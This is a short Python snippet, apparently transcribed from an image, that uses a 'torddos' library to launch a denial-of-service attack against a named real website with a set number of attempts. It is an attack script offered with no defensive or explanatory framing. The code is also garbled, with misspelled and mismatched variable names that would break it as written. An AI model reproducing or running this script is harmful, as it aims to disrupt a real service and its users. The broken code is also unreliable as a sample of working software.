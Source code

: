 import torddos
td= torddos.TorDDoS()
Target=
"https://www.talkytimes.com"
attemps = 25
td.attack(target, attepmpts)
